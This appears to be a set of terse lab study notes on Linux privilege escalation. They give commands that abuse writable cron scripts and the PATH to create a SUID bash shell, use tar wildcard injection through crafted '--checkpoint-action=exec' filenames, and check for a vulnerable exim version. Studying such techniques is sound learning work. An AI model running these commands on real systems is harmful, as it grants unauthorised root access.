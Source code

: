 ~~~
Linux VM  

1. In command prompt type: cat /etc/crontab  
2. From the output, notice the value of the “PATH” variable 

Exploitation  
Linux VM  

1. In command prompt type: echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh  
2. In command prompt type: chmod +x /home/user/overwrite.sh  
3. Wait 1 minute for the Bash script to execute.  
4. In command prompt type: /tmp/bash -p  
5. In command prompt type: id 
~~~
# Cron job tests
~~~
Linux VM  

1. In command prompt type: cat /etc/crontab 
2. From the output, notice the script “/usr/local/bin/compress.sh”  
3. In command prompt type: cat /usr/local/bin/compress.sh 
4. From the output, notice the wildcard (*) used by ‘tar’. 

Add checkpoint variables to tar: 
1. echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh 
2. touch /home/user/--checkpoint=1 
3. touch /home/user/--checkpoint-action=exec=sh\ runme.sh 
4. Wait for script to execute 
5. /tmp/bash -p 
6. id
~~~
# cron write perm check 
1. echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh 
2. Wait for script to execute 
3. /tmp/bash -p 
4. id
~~~
# Vulnerable exim.
~~~
dpkg -l | grep -i exim ( is version is below 4.86.2 ?) 

Is exim compiled with perl support? 
exim -bV -v | grep -i perl  
Does exim.conf contain “perl sartup” option? 
Use cve-2016-1531.sh 
~~~
# Check vulnerable software.
~~~
# Debian 
dpkg -l 
 